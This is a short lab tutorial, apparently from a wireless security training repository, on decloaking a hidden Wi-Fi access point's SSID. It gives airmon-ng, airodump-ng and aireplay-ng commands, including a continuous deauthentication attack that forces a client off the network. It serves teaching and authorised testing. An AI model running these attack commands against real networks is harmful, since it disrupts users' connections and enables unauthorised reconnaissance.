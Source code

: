 # Hidden Network

Demonstrate how to decloak a hidden AP's SSID

* Run [setup](../setup.md) first
* Two terminals are needed
* One client needs to be associated
* Configure AP to not broadcast its SSID

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE
```

* The length shows 0

![hidden](../images/hidden.png)

* Sometimes the SSID will appear before even before doing a deauthentication attack. No need to continue if that is the case.

```bash
# [Terminal Two]
# Run the deauthentication attack
sudo aireplay-ng --deauth 0 -a $BSSID -c $CLIENT $INTERFACE
```

* Observe that the SSID is now provided
* The AUTH value appears too

![hidden](../images/unhidden.png)

## Reference

[Hidden](https://www.youtube.com/watch?v=fCa4rYxECRs&ab_channel=learningthing)
